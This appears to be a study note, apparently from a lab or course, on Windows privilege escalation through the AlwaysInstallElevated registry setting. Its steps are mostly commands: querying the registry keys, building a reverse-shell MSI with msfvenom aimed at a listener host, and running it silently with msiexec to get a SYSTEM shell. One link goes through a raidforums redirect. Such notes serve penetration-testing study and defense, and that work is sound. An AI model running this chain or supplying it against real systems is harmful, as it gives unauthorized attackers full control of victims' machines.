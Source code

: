 ```yaml
---
tags:
  - PostExploitation
  - OperatingSystems
---
```

[Windows Local Privilege Escalation - Registry (AlwaysInstallElevated) - YouTube](https://www.youtube.com/watch?v=9LpsofQN_ao&list=PLjG9EfEtwbvIrGFTx4XctK8IxkUJkAEqP&index=8)

[Domain Seizure](https://raidforums.com/misc.php?action=safelinks&url=https%3A%2F%2Fbook.hacktricks.xyz%2Fwindows%2Fwindows-local-privilege-escalation%23alwaysinstallelevated)



1. Query the registry for AlwaysInstallElevated keys:
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

> [!NOTE]
> Both keys are set to 1 (0x1).

2. On Kali, generate a reverse shell Windows Installer (reverse.msi) using msfvenom. Update the LHOST IP address accordingly:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
```

3. Transfer the reverse.msi file to the C:\PrivEsc directory on Windows (use the SMB server method from earlier).
4. Start a listener on Kali and then run the installer to trigger a reverse shell running with SYSTEM privileges:
```
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```